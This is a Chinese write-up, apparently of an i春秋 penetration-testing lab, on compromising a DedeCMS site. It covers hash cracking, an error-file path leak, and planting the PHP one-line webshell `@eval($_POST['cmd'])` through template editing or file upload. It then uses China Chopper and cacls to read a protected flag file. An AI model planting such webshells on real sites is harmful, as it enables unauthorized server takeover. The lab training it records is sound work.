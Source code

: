 ﻿---
title: 【i春秋】渗透测试入门 —— 真的很简单
copyright: true
date: 2018-03-06 15:56:26
tags: [i春秋,pentest,writeup,web,php,vulnerability]
categories: [InfoSec,Pentest]
---

# 0x00 前言

本题是渗透测试入门的一道基础题，虽然美其名曰“真的很简单”，但对于新手还是有一定挑战性的，实践并掌握本题中的所有知识点，对渗透测试的基本理解有很大帮助。

此题的目标是对一个基于[织梦 CMS](http://www.dedecms.com/) 的网站进行渗透测试，找到网站登录后台，继而入侵服务器找到存放 flag 的文件。从实验手册上，可看出其中还会涉及到简单的提权过程。

- 题目链接：[https://www.ichunqiu.com/battalion?t=2&r=54399](https://www.ichunqiu.com/battalion?t=2&r=54399)
- 解题链接：[https://www.ichunqiu.com/vm/51123/1](https://www.ichunqiu.com/vm/51123/1)

<!-- more -->

![guide](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/guide.png)

# 0x01 网站管理员的密码是多少？

第 1 题相对简单，在实验环境内根据提示打开下载链接 `http://file.ichunqiu.com/49ba59ab`，接着下载爆破工具 `dedecms.exe`：

![dedecms_download](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_download.png)

打开工具，输入目标 URL，一键爆破得到管理员的账号 `ichunqiu` 与密码哈希值 `adab29e084ff095ce3eb`：

![dedecms](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms.png)

仔细数数，发现密码哈希值是 20 位的（注：此处的“位”均为十六进制，而非二进制），上网一查才发现这是织梦 CMS 的特性，实现过程可参考 [DEDECMS的20位MD5加密密文解密示例介绍](http://www.jb51.net/cms/104721.html)：

![dedecms_md5](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_md5.png)

将 20 位的哈希值用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 解密，得到密码明文 `only_system`：

![password](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password.png)

为验证 20 位的 MD5 哈希算法规则，可进一步用 [MD5加密工具](https://md5jiami.51240.com/) 对 `only_system` 加密，发现其 16 位哈希值确实能由 20 位哈希值去掉前 3 位与后 1 位所得:

![password_verify](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password_verify.png)

# 0x02 网站后台目录名是什么？

第 2 题上来先尝试织梦 CMS 的默认后台路径 `/dede/index.php` 或 `/dede/login.php`，得到 404 的结果也是意料之中，即现在的问题是要找出修改后的后台目录名。

打开实验工具箱，发现【目录扫描】文件夹，以【御剑后台扫描工具】为例，对目标 URL 扫描后得到如下结果：

![directory_scan](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/directory_scan.png)

注意，为了保证扫描效率，一般后台扫描工具都是采用字典扫描，而不是暴力穷举，因此**不同扫描器得到的结果不完全相同，尽可能使用多种扫描器，偏僻怪异的名字可能扫描不出来**。

笔者采用了多种扫描器，并对其可能的结果进行验证，都一无所获，即可**判断此后台目录名具有较强的个性或随机性**。

所以要转换思路，看看织梦 CMS 是否存在后台地址信息泄露的漏洞。果不其然，发现从报错文件 `/data/mysql_error_trace.inc` 或 `/data/mysqli_error_trace.inc` 中，可得到泄露的后台路径，具体可参考：

> [dedecms的各种卡哇伊小漏洞](http://blog.csdn.net/wangyi_lin/article/details/9286937)
> [dedecms(织梦)漏洞&exp整理](http://www.cnblogs.com/hookjoy/p/6996820.html)
> [php学习之织梦dedecms漏洞讲解](http://www.daixiaorui.com/read/14.html)

最后在 `/data/mysqli_error_trace.inc` 中获得后台目录名为 `lichunqiul`：

![mysqli_error_trace](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/mysqli_error_trace.png)

对其进行验证，终于看到了后台登录页面：

![login](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/login.png)

# 0x03 管理员桌面中 flag 文件信息是？

用账号 `ichunqiu` 与密码 `only_system` 登录后台后，根据实验手册，要想办法利用[中国菜刀](http://www.zhongguocaidao.com/)连接服务器，获得 webshell，进而查看 flag 文件中的信息。

## 获取 webshell

首先我们需要在服务器插入[一句话木马](https://baike.baidu.com/item/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC)，然后才能用菜刀连接，获得 webshell。这里介绍两种插入一句话木马的方法。

### 直接修改模板 PHP 源码

依次点击 **模板 -> 标签源码管理**，以编辑第一个模板 `adminname.lib.php` 为例：

![template_list](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_list.png)

在模板源码第一行插入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![template_edit](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_edit.png)

接着在工具箱【webshell】文件夹打开【中国菜刀】：

![chopper](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper.png)

在 **添加SHELL** 输入框中，输入被插入木马模板文件的地址 `http://www.test.ichunqiu/include/taglib/adminname.lib.php`，其右侧填入木马中接收 POST 请求数据的 key 字段 `cmd`，脚本类型为 `PHP(Eval)`，字符编码为 `GB2312`，设置完成后点击 **添加**：

![add_shell_1](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_1.png)

若参数设置正确，双击所添加的条目，即可连接服务器的资源管理器，进入到模板文件所在的目录：

![manager_1](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_1.png)

### 上传一句话木马文件

先在本地创建文件 `trojan.php`，写入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![trojan_edit](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_edit.png)

再依次点击 **系统 -> 系统基本参数 -> 附件设置**，如下图更改允许上传的文件类型，否则木马将上传失败：

![file_type](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/file_type.png)

最后点击 **核心 -> 上传新文件**，如下图所示上传木马：

![trojan_upload](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_upload.png)

上传完毕后点击 **核心 -> 附件数据管理 -> 更改**，即可查看木马的路径：

![trojan_path](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_path.png)

接着利用菜刀添加SHELL，步骤同上，只不过地址更改为 `http://www.test.ichunqiu/uploads/soft/180307/1_1503138291.php`：

![add_shell_2](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_2.png)

若参数设置正确，双击连接服务器的资源管理器，即可进入到木马所上传的目录：

![manager_2](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_2.png)

## 权限提升

进入到管理员桌面可看到 flag 文件 `flag~ichunqiu.txt`：

![manager_flag](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_flag.png)

但双击后未显示任何内容，估计是权限受限。接下来可右键点击条目，祭出虚拟终端，即 webshell 的命令行模式：

![chopper_terminal](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper_terminal.png)

先切换至管理员桌面，用 `cacls` 命令查看 flag 文件的[访问控制列表（ACL）](https://baike.baidu.com/item/%E8%AE%BF%E9%97%AE%E6%8E%A7%E5%88%B6%E5%88%97%E8%A1%A8)，后用 `whoami` 命令查看用户名，发现 `authority\system` 用户对于 flag 文件的权限是 N，即无权限，用 `type` 命令查看 flag 文件果然是拒绝访问的：

![deny](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/deny.png)

用 `cacls` 命令更改了访问权限后，`authority\system` 用户对于 flag 文件的权限变成了 F，即所有权限，再次查看 flag 文件内容即可看到 `key{il2o3l}`：

![flag](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/flag.png)

注意提交答案的时候有个坑，记得先拆掉包装，只需提交 `il2o3l` 即可。最后附上 `cacls` 命令的用法：

![cacls](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/cacls.png)

# 0x04 小结

所谓条条大路通罗马，以上思路可能只是完成目标的其中一种方法。本人能力有限，面对工具箱中种类繁多的各种工具不能信手拈来，对于 Windows 命令的使用也掌握不深，尤其是实验手册中提到的 `net.exe` 工具尚未使用，因为在 webshell 中使用 `net` 命令也是拒绝访问的，这个问题还请各位前辈不吝赐教。

最后向以下两篇参考 writeup 的作者表示致谢！

> [09-在线挑战详细攻略-《真的很简单》](https://bbs.ichunqiu.com/thread-19282-1-1.html)
> [爱春秋-WEB渗透实验-真的很简单-实验记录](https://bbs.ichunqiu.com/thread-15780-1-1.html)